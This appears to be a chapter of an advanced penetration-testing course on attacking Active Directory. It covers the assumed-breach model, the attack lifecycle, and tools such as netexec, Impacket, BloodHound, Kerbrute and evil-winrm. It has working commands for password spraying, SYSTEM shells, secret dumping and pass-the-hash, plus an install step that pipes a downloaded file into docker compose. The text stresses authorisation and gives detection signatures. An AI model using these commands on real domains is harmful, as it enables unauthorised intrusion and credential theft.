









**Level:** Advanced · **Track:** Penetration Testing · **Read time:** 220 min

This is Chapter 1 of the Active Directory attack notebook — Notebook 18. The earlier Active Directory *fundamentals* notebook built the map: what a domain is, how forests and trusts fit together, how objects and the schema work, and how Kerberos authenticates a user message by message. This notebook is where that map becomes a battlefield. Here we stop describing Active Directory and start moving through it the way a real intruder or an authorised red teamer does.

The single most important idea in this chapter is a mindset, not a tool: **assume the breach**. Modern AD engagements almost never start from the internet with zero access. They start with the client handing you one low-privileged domain account — or you simulate that starting point — and asking a blunt question: *given a foothold, how far can an attacker get, and how fast?* Everything in this notebook flows from that question. By the end of this chapter you will be able to describe the complete AD attack lifecycle, reason about identity as terrain, run the first hours of a domain compromise as a repeatable methodology rather than a bag of tricks, and use the core toolkit — netexec, BloodHound, Impacket, Kerbrute — to turn one credential into a mapped path to Domain Admin.

Attacking Active Directory changes state on infrastructure that runs entire companies. That makes authorisation non-negotiable. Everything here assumes an explicit, written, scoped engagement, or a lab you built yourself. Running any of these techniques against a domain you are not authorised to test is unlawful unauthorised-access activity everywhere on earth. Build the lab described near the end, attack only your own domain controllers, and keep every command inside that boundary.

---

## Part 1: Why Active Directory Is the Whole Game

If you attack Windows environments long enough, one fact becomes unavoidable: the network is not a collection of independent machines, it is a single identity fabric, and that fabric is Active Directory. An estimated 90%+ of Fortune 1000 companies run AD as the backbone of their internal network. When you compromise one workstation, you have not compromised one computer — you have gained a foothold inside a trust system that stretches across every server, laptop, file share, and application that authenticates against the domain.

That is why the phrase "get Domain Admin" is shorthand for "own everything." A Domain Admin can log into any domain-joined machine, read or reset any user's password, push code to every endpoint via Group Policy, and extract the entire password database of the organisation from the domain controller. There is rarely a meaningful escalation *beyond* Domain Admin inside a single domain — it is the top of the hill. The entire discipline of AD attacking is the study of how to climb from a nobody account to that position, and the entire discipline of AD defending is the study of how to make that climb slow, loud, and ideally impossible.

**Why this is different from web or host exploitation.** In web pentesting you hunt for a *vulnerability* — a SQL injection, an SSRF, a deserialization bug. AD is different: most domain compromises exploit **features working exactly as designed**. Kerberos delegation, the way service accounts store passwords, the fact that a helpdesk group can reset an executive's password, the reuse of one local administrator password across 4,000 machines — none of these are "bugs" in the CVE sense. They are *misconfigurations* and *design trade-offs* that accumulate over decades of a domain's life. This is liberating and humbling at once: you rarely need an exploit, but you do need to understand how the system is *supposed* to work well enough to see where its assumptions break.

> **Mental hook:** In host exploitation you break the software. In Active Directory you abuse the *relationships between identities*. The vulnerability is the org chart.

**Red team usage:** the goal of an AD-focused red team is almost always to demonstrate a path from "assumed compromised laptop" to "domain-wide control" and, from there, to a specific business objective — the finance file share, the source-code repository, the domain's `krbtgt` key. **Blue team usage:** the same map, read backwards, is a defensive to-do list — every edge on the attack graph is a control that could have been tightened. We will return to this symmetry constantly.

---

## Part 2: The Assumed-Breach Model — What It Is and Why It Won

For years, AD engagements were run "black box": the tester started outside the perimeter with nothing and had to phish, exploit an exposed service, or find leaked credentials just to get their first shell. That is realistic, but it is a poor use of engagement time. If a team spends six of ten days getting a single foothold, the client learns almost nothing about what happens *after* an attacker is inside — which is where the real damage occurs and where most defensive value lives.

The industry's answer is the **assumed-breach model**. The client stipulates the breach as a given: they provide the testing team with a starting position — commonly a standard domain user account and a workstation on the internal network, sometimes just credentials, sometimes a planted C2 implant. The test then measures everything downstream: *how quickly does one user become Domain Admin? What can be reached along the way? What fires in the SOC, and what stays silent?*



The diagram shows the key point: both models converge on the same post-foothold lifecycle. Assumed-breach simply *skips the expensive, high-variance front end* so the engagement spends its budget on the part that teaches the defender the most.

**Engagement models compared:**

| Model | Starting position | What it tests | Typical use |
|---|---|---|---|
| Black box / external | Nothing; internet only | Perimeter, initial access, whole chain | External pentest, realistic APT simulation |
| Grey box | Some knowledge (IP ranges, one account) | Internal movement with light head start | Most internal pentests |
| **Assumed breach** | A live low-priv foothold on the LAN | Post-compromise blast radius, detection efficacy | Purple teaming, mature orgs, AD-focused tests |
| White box / config review | Full read access to AD config | Design-level weaknesses without exploitation | Architecture review, hardening validation |

**Why assumed-breach dominates modern AD work:** phishing *will* eventually succeed against a large org — that is empirically settled, so proving it again wastes days. The interesting, defensible question is what an attacker does in the hours *after* a phish lands. Assumed-breach also produces cleaner, more repeatable findings: because the starting point is fixed, two testers (or the same tester across two years) can be compared. **Blue team relevance:** assumed-breach is the natural shape of a *purple* team exercise — the red operators run a known path while the blue team watches their telemetry light up (or fail to), turning the engagement into a detection-tuning session rather than a scoreboard.

**The mindset shift.** Adopting assumed-breach mentally means you stop asking "how do I break in?" and start asking "I'm already in as *somebody* — who am I, what can this identity touch, and what identity do I want to become next?" That reframing — from *exploiting software* to *pivoting between identities* — is the core cognitive skill this entire notebook trains.

---

## Part 3: Identity Is the Terrain — The Attacker's Mental Model

Before methodology, you need the right mental model of the battlefield. In AD, the objects that matter are not IP addresses; they are **security principals** — users, computers, and groups — and the **permissions and trust relationships** between them. An attacker who thinks in IPs will crawl. An attacker who thinks in identities and edges will fly.

Four distinctions cause more beginner confusion than anything else. Internalise them now:

1. **User object vs computer object.** Every domain-joined machine has its own account in AD (ending in `$`, e.g. `WS01$`). Computer accounts authenticate, hold their own passwords, and can be attacked (this is the whole basis of relay and delegation attacks). A "machine" is just another identity to you.
2. **Local admin vs domain admin.** Being local administrator on *one* box lets you dump the secrets *cached on that box*. Being Domain Admin lets you control *every* box. The entire escalation game is chaining local-admin footholds and cached secrets until one of them belongs to a domain-privileged account.
3. **Credential vs authenticator.** A *credential* is the secret (a password, or its NT hash). An *authenticator* is proof you can present without necessarily knowing the secret — a Kerberos ticket, an NTLM response. AD's original sin, from an attacker's view, is that in many cases the **authenticator is as good as the credential**: you can pass a hash or pass a ticket and never crack anything. Cracking is optional, not required.
4. **Foothold vs privilege vs path.** A *foothold* is code execution or valid creds somewhere. *Privilege* is what that identity can do. A *path* is the chain of edges from where you are to where you want to be. You can have a foothold with almost no privilege but sit one edge away from Domain Admin — or huge local privilege that is a dead end. Finding the *path* is the job.



Read that graph as an attacker: you *are* `j.smith`, a normal user. You are in Helpdesk. Helpdesk can force-reset `svc_backup`'s password. `svc_backup` is a Backup Operator, and a Backup Operator can read the domain controller's `NTDS.dit` database — which contains every hash in the domain, including `krbtgt`. Nowhere in that chain did you exploit a memory-corruption bug or a CVE. You walked a series of *legitimate permissions* that, combined, form a highway from nobody to god. **This is what BloodHound automates, and it is the single most important cognitive tool in AD attacking.** We will build up to running it in Part 8 and the lab.

> **Mental hook:** Don't map the network. Map the *identities* and the *edges* between them. The shortest path to Domain Admin is almost never a straight line — it's a series of "who can do what to whom" hops.

---

## Part 4: The AD Attack Lifecycle — A Repeatable Methodology

Randomly running tools against a domain is how you get caught and miss things. Professionals run a **repeatable lifecycle**. Memorise these six phases; the rest of this notebook is chapters drilling into each one.



The crucial thing the state diagram captures is the **loop**: lateral movement usually feeds back into situational awareness. Every new machine you land on is a fresh vantage point with fresh cached credentials, fresh group memberships, fresh trust. You rarely go start-to-finish in a straight line. You spiral inward.

Here is what each phase means in AD terms:

| Phase | Core question | Representative techniques | Notebook chapter |
|---|---|---|---|
| **1. Initial Access** | How do I get my first valid identity? | Phishing, password spray, exposed service, LLMNR/NBNS poisoning, AS-REP roast (no creds needed) | This chapter (framing); network-attacks notebook covered poisoning |
| **2. Situational Awareness** | Who am I, and what's around me? | Enumerate domain, users, groups, shares, ACLs, sessions; BloodHound collection | This chapter + next chapters |
| **3. Credential Access** | How do I get *more/better* secrets? | Kerberoasting, AS-REP roasting, LSASS/SAM dumping, DPAPI, LAZagne, cracking | Later chapters |
| **4. Privilege Escalation** | How do I become more powerful? | ACL abuse, delegation abuse, GPO abuse, local privesc chained to domain | Later chapters |
| **5. Lateral Movement** | How do I reach the next box/identity? | Pass-the-Hash, Pass-the-Ticket, WMI/WinRM/PsExec, RDP, overpass-the-hash | Later chapters |
| **6. Domain Dominance** | How do I own it all / persist? | DCSync, Golden/Silver tickets, DCShadow, AdminSDHolder, `krbtgt` control | Later chapters |

**A note on order.** These phases are logical, not rigid. Sometimes credential access *is* your initial access (a leaked password in a share). Sometimes you skip straight from a foothold to domain dominance because the very first machine you land on has a Domain Admin session cached in memory. The methodology is a checklist to make sure you never *forget* a phase, not a track you must run in order. **Red team discipline:** the value of naming the phases is that when you feel stuck, you can ask "which phase am I actually blocked in?" and pull the right technique off the shelf instead of flailing.

---

## Part 5: Initial Access — Turning Zero Into One Identity

In assumed-breach you are *given* the first identity, so we treat initial access briefly here and go deep in later chapters. But you must understand the common on-ramps, because in a grey-box or black-box engagement you may still have to earn them, and because the defender needs to know which doors exist.

The realistic first-credential sources in a modern internal test:

- **Password spraying.** Take a small list of very common passwords (`Season+Year!`, `Company123`, `Welcome1`) and try each one across *every* user in the domain, slowly, to avoid lockout. One weak password in ten thousand users is all you need. This is the single most reliable internal on-ramp.
- **LLMNR / NBT-NS / mDNS poisoning.** When a Windows host mistypes a share name, it broadcasts a name-resolution query that any machine on the segment can answer. Answer it, and the victim sends you a Net-NTLMv2 authenticator you can crack or relay. (Covered in the network-attacks notebook with `Responder`.)
- **AS-REP roasting without credentials.** If any account has "do not require Kerberos pre-authentication" set, you can request a Kerberos AS-REP for it *with no password at all* and crack the encrypted portion offline. A single such account is a free credential.
- **Exposed/default service creds.** Anonymous SMB shares, a Jenkins with no auth, a database with `sa:sa`, credentials in an internal wiki. Enumeration finds these constantly.
- **Phishing.** Still the empirical number-one initial-access vector for real intrusions; in assumed-breach it is stipulated rather than performed.

A concrete, safe password spray with `netexec` looks like this — note the deliberate throttling and the `--continue-on-success` so one hit doesn't stop the sweep:

```bash
# ONE password across ALL users, staying under the lockout threshold.
# Read --pass-pol FIRST (Part 6). If lockout is 5/30min, one attempt now is safe.
nxc smb 10.10.10.10 -u users.txt -p 'Autumn2024!' --continue-on-success
```

```text
SMB  10.10.10.10  445  DC01  [-] corp.local\a.admin:Autumn2024! STATUS_LOGON_FAILURE
SMB  10.10.10.10  445  DC01  [-] corp.local\b.jones:Autumn2024! STATUS_LOGON_FAILURE
SMB  10.10.10.10  445  DC01  [+] corp.local\j.smith:Autumn2024!
```

One `[+]` in a wall of `[-]` is a valid credential. The golden rule of spraying: **many users, one password, then wait**. Never many passwords against one user — that is how you lock accounts. If you must try a second password, wait a full lockout-reset window (here, 30 minutes) first.



Notice that AS-REP roasting sits at the top of the decision tree precisely because it needs *no* credential — only a list of usernames, which you can often build anonymously via RID cycling or from the org's email format. **Blue team relevance:** every one of these on-ramps has a clean signature — spray shows as many `4625` failed logons from one source; Responder poisoning shows as unexpected answers to broadcast LLMNR; AS-REP roasting shows as `4768` events with encryption type `0x17` (RC4) and pre-auth not required. We will consolidate these in Part 12.

---

## Part 6: Situational Awareness — The First Hour After Landing

You have one credential. The instinct of a beginner is to immediately start attacking. The discipline of a professional is to **enumerate first** — you cannot plan a route without a map, and noisy blind attacks are how you get burned on day one. This is the single most important habit in AD work.

What you want to know, roughly in order:

1. **Who am I?** — my username, my groups, my privileges, whether I'm local admin anywhere.
2. **What's the domain?** — its name, its domain controllers, its functional level, its password policy (especially lockout threshold — you *must* know this before spraying anything else).
3. **Who else exists?** — the full list of users and groups, especially the high-value groups (Domain Admins, Enterprise Admins, Backup Operators, DnsAdmins, etc.) and their members.
4. **What can I reach?** — SMB shares (readable/writable), reachable hosts, running services.
5. **Where are the juicy identities logged in?** — which machines have privileged users' sessions or cached credentials.
6. **What are the relationships?** — the ACLs, delegations, and group nesting that BloodHound turns into paths.



**The lockout-threshold rule.** Before you brute-force or spray *anything*, read the domain's account-lockout policy. Locking out hundreds of real employees is the fastest way to end an engagement early and burn your relationship with the client. `netexec smb DC --pass-pol` gets it for you in seconds. If lockout is, say, 5 attempts / 30-minute window, your spray must stay under that per account, per window. This single check separates professionals from amateurs.

**Pentester landing on a new system:** the first three commands you run on any new AD foothold should tell you *who you are*, *what the domain is*, and *what the lockout policy is* — in that order. Everything else is downstream of those three facts.

We will teach the exact tools to answer all six questions in Part 7 and run them for real in the lab.

---

## Part 7: The Core Toolkit — Taught From Scratch

Four tools do most of the heavy lifting across this entire notebook. We teach each from zero here, once, so later chapters can use them freely.

### 7.1 netexec (nxc) — the network Swiss-army knife

**What it is.** `netexec` (imported as `nxc`, and the maintained successor to the well-known `CrackMapExec`/`cme`) is a command-line tool that speaks the protocols AD networks run on — SMB, WinRM, LDAP, MSSQL, RDP, SSH, FTP, VNC — and lets you authenticate to many hosts at once and *do things*: enumerate shares, dump the SAM, read the password policy, run commands, spray passwords. It is the first tool most operators reach for after getting a credential.

**Why it exists.** Doing all of the above by hand, host by host, is tedious. `netexec` makes "here is a credential, here is a subnet, tell me everything" a one-liner.

**Install on Kali:**

```bash
# On modern Kali it's packaged:
sudo apt update && sudo apt install -y netexec

# Or install the latest via pipx (recommended for freshest features):
sudo apt install -y pipx
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExec

nxc --version
nxc smb --help        # every protocol has its own --help
```

**Core workflow — the shape of every nxc command:**

```
nxc <protocol> <target> -u <user> -p <password|hash> [action flags]
```

For example, authenticate over SMB to a whole /24 and report where the credential is valid and where it grants local admin:

```bash
nxc smb 10.10.10.0/24 -u j.smith -p 'Autumn2024!'
```

```text
SMB   10.10.10.10   445  DC01     [*] Windows Server 2019 Build 17763 x64 (name:DC01) (domain:corp.local) (signing:True) (SMBv1:False)
SMB   10.10.10.25   445  FS01     [*] Windows Server 2019 Build 17763 x64 (name:FS01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB   10.10.10.42   445  WS01     [*] Windows 10 Build 19041 x64 (name:WS01) (domain:corp.local) (signing:False) (SMBv1:False)
SMB   10.10.10.10   445  DC01     [+] corp.local\j.smith:Autumn2024!
SMB   10.10.10.25   445  FS01     [+] corp.local\j.smith:Autumn2024!
SMB   10.10.10.42   445  WS01     [+] corp.local\j.smith:Autumn2024! (Pwn3d!)
```

Read that output like an operator. `[+]` means the credential authenticated. **`(Pwn3d!)` means the credential is *local administrator* on that host** — here, `j.smith` is local admin on `WS01`. That single word is often the most valuable thing on your screen: it means you can dump secrets from `WS01`. Note also `signing:False` on `FS01` and `WS01` — that is the precondition for SMB relay attacks, a detail worth recording.

**Flag reference for the actions you'll use constantly:**

| Flag | Protocol | What it does |
|---|---|---|
| `--pass-pol` | smb | Dump the account lockout / password policy (run this FIRST) |
| `--users` | smb / ldap | Enumerate all domain users |
| `--groups` | smb / ldap | Enumerate groups and membership |
| `--shares` | smb | List shares and your read/write access to each |
| `--sessions` | smb | Show who is logged on to the target |
| `--loggedon-users` | smb | Show interactively logged-on users (privileged-session hunting) |
| `--sam` | smb | Dump local SAM hashes (needs local admin) |
| `--lsa` | smb | Dump LSA secrets (needs local admin) |
| `-x` / `-X` | smb | Run a cmd / PowerShell command on the target |
| `--kerberoasting out.txt` | ldap | Pull Kerberoastable service tickets |
| `--asreproast out.txt` | ldap | Pull AS-REP roastable hashes |
| `-H <hash>` | any | Authenticate with an NT hash instead of a password (Pass-the-Hash) |
| `--continue-on-success` | any | Keep going after the first valid credential (for spraying) |

**Red team usage:** `nxc smb <subnet> -u user -p pass --loggedon-users` is how you *hunt for privileged sessions* — find the box where a Domain Admin is logged in, get local admin there, and steal their token or credential. **Blue team usage:** the same tool authenticating to hundreds of hosts in seconds is extremely loud — a burst of `4624`/`4625` logons across the estate from one source is a near-perfect netexec signature.

### 7.2 Impacket — the protocol toolkit

**What it is.** `Impacket` is a Python library and a collection of ready-made scripts that implement Windows network protocols (SMB, MSRPC, Kerberos, LDAP, etc.) *from the attacker's side*. Where `netexec` is a broad sweeper, Impacket scripts are precise, single-purpose scalpels. You will use these names for the rest of your career: `secretsdump.py`, `psexec.py`, `wmiexec.py`, `GetUserSPNs.py`, `GetNPUsers.py`, `getTGT.py`, `ntlmrelayx.py`.

**Install on Kali:**

```bash
sudo apt install -y python3-impacket        # packaged
# or freshest:
pipx install impacket
secretsdump.py -h
```

**The Impacket target-string convention** — learn this once and every script makes sense:

```
domain/user:password@target
# password can be omitted to be prompted; add -hashes LM:NT for Pass-the-Hash
```

Two you will meet immediately:

```bash
# Remote code execution as SYSTEM over SMB (needs local admin on target):
psexec.py corp.local/j.smith:'Autumn2024!'@10.10.10.42

# Dump ALL secrets (SAM + LSA + cached domain creds) from a host you admin:
secretsdump.py corp.local/j.smith:'Autumn2024!'@10.10.10.42
```

```text
Impacket v0.11.0 - Copyright 2023 Fortra
[*] Service RemComSvc successfully installed on 10.10.10.42
[*] Opening SVCManager on 10.10.10.42.....
[*] Creating service ...
[*] Starting service ...
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19041.1]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

That `nt authority\system` prompt is the payoff: full control of `WS01`. **We will use `secretsdump.py` in the lab to pull cached credentials that become our next identity.**

### 7.3 BloodHound + bloodhound-python — the attack-path engine

**What it is.** `BloodHound` is a graph tool. A *collector* (SharpHound on Windows, or `bloodhound-python` on Linux) crawls the domain and records every object and every relationship — group membership, ACLs, sessions, delegations, local-admin rights — and dumps them to JSON. You load that JSON into the BloodHound GUI (a Neo4j-backed graph), and it answers questions like "show me the shortest path from `j.smith` to Domain Admins" with a literal drawn path. It turns the identity-terrain idea from Part 3 into an interactive map.

**Why it exists.** Humans cannot hold thousands of nested group memberships and ACL entries in their heads. BloodHound computes the *transitive closure* of "who can control whom" and finds paths a human would never spot.

**Install on Kali (Community Edition + Linux collector):**

```bash
# The Linux collector (no Windows needed):
pipx install bloodhound          # provides bloodhound-python

# BloodHound CE GUI via Docker (simplest):
curl -L https://ghst.ly/getbhce | docker compose -f - up -d
# then browse to http://localhost:8080  (default creds printed in the logs)
```

**Collect with the Python ingestor** (this is the command you'll memorise):

```bash
bloodhound-python -u j.smith -p 'Autumn2024!' -d corp.local \
  -dc DC01.corp.local -ns 10.10.10.10 -c All --zip
```

Flag by flag: `-u/-p` your credential; `-d` the domain FQDN; `-dc` the domain controller to talk to; `-ns` the DNS server (almost always the DC's IP — AD is glued together by DNS, so pointing at the DC for name resolution is essential); `-c All` collect *every* data type (sessions, ACLs, trusts, etc.); `--zip` bundle the JSON for one-drag import into the GUI.

**Blue team relevance:** BloodHound collection is *reconnaissance-heavy* — a single low-priv account suddenly enumerating every user, group, ACL, and session over LDAP and SMB is a strong detection opportunity (bulk LDAP queries, `SharpHound`-like access patterns). Defenders run BloodHound *too*, proactively, to find and cut the same paths before an attacker walks them.

### 7.4 Kerbrute — fast username & password validation over Kerberos

**What it is.** `Kerbrute` is a small, fast Go tool that abuses a quirk of Kerberos pre-authentication: the KDC responds *differently* to a request for a username that exists versus one that doesn't — *before any password is checked*. That lets you (a) enumerate valid usernames with zero authentication and zero lockout risk, and (b) password-spray extremely fast against Kerberos.

**Install on Kali:**

```bash
# Grab the release binary:
wget https://github.com/ropnop/kerbrute/releases/latest/download/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute
./kerbrute --help
```

**Enumerate valid usernames (no lockout, because no password is tried):**

```bash
./kerbrute userenum -d corp.local --dc 10.10.10.10 usernames.txt
```

```text
2024/01/01 12:00:00 >  [+] VALID USERNAME:   j.smith@corp.local
2024/01/01 12:00:00 >  [+] VALID USERNAME:   a.admin@corp.local
2024/01/01 12:00:00 >  [+] VALID USERNAME:   svc_sql@corp.local
2024/01/01 12:00:01 >  Done! Tested 5000 usernames (3 valid) in 4.212 seconds
```

**Why it matters:** username enumeration is the fuel for AS-REP roasting and password spraying, and Kerbrute does it fast without touching the lockout counter (username-only requests don't increment it). **Blue team relevance:** a flood of `4768` (Kerberos AS-REQ) events for many distinct, often-nonexistent usernames from one source is the Kerbrute signature.

### 7.5 evil-winrm — the interactive Windows shell over WinRM

**What it is.** `evil-winrm` is a Ruby-based interactive shell client for Windows Remote Management (WinRM), the Microsoft-blessed remote-management protocol that listens on TCP `5985` (HTTP) and `5986` (HTTPS). When a credential is a member of the target's **Remote Management Users** group (or is local admin), `evil-winrm` gives you a clean, stable PowerShell prompt on that host — far more pleasant than a `psexec` service shell and much quieter.

**Why it exists.** It packages WinRM authentication (password, NT hash for Pass-the-Hash, or Kerberos ticket), file upload/download, and in-memory script/assembly loading into one ergonomic tool. It is the default "I have creds and WinRM is open" access method on HackTheBox/THM Windows boxes, so you will use it constantly.

**Install on Kali:**

```bash
sudo apt install -y evil-winrm        # packaged
# or as a gem:
gem install evil-winrm
evil-winrm --help
```

**Core usage** — password, Pass-the-Hash, and the built-in helpers:

```bash
# With a password:
evil-winrm -i 10.10.10.42 -u svc_sql -p 'S3rv1ce!'

# Pass-the-Hash (no password — just the NT hash):
evil-winrm -i 10.10.10.42 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
```

```text
Evil-WinRM shell v3.5
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_sql\Documents> whoami
corp\svc_sql
*Evil-WinRM* PS C:\Users\svc_sql\Documents> upload winPEASx64.exe
Info: Uploading winPEASx64.exe to C:\Users\svc_sql\Documents\winPEASx64.exe
Data: 100% complete
```

Inside the shell, `upload <file>` and `download <file>` move tooling on and off the box, and `menu` lists in-memory loaders (`Invoke-Binary`, `Bypass-4MSI`). **Red team usage:** WinRM logons appear as network logon type 3 and are generally quieter than a `psexec` service install — a good default when OPSEC matters. **Blue team relevance:** WinRM activity shows in `Microsoft-Windows-WinRM/Operational` and as `4624` type 3 to the `WSMan` service; unusual source hosts connecting over 5985 to servers that don't normally receive admin WinRM is a solid hunt.

---

## Part 8: Thinking In Graphs — Attack Paths With BloodHound

With the collector run and the GUI loaded, AD attacking becomes a graph problem. This is worth a section of its own because *graph thinking* is the difference between a checklist-runner and a real operator.
